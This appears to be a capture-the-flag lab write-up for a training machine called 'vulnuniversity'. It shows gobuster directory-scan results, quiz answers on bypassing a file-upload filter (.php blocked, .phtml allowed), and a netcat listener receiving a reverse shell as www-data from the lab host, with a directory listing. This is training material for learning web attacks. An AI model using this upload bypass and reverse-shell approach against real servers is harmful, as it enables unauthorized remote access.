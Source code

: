 ````shell
/css                  (Status: 301) [Size: 319] [--> http://10.10.160.171:3333/css/]
/fonts                (Status: 301) [Size: 321] [--> http://10.10.160.171:3333/fonts/]
/images               (Status: 301) [Size: 322] [--> http://10.10.160.171:3333/images/]
/index.html           (Status: 200) [Size: 33014]
/internal             (Status: 301) [Size: 324] [--> http://10.10.160.171:3333/internal/]
/js                   (Status: 301) [Size: 318] [--> http://10.10.160.171:3333/js/]
/server-status        (Status: 403) [Size: 303]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
````
Answer : /internal/

---

## Compromise the Webserver

### 1. What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out.

Answer : .php

---

### 2. Run this attack, what extension is allowed?

Answer : .phtml

---

---

````shell
┌──(grimlock㉿GRIMLOCK)-[~/hackerdirectory]
└─$  nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.46.12] from (UNKNOWN) [10.10.160.171] 51078
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 02:43:20 up 45 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
dev
etc
home
initrd.img
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
````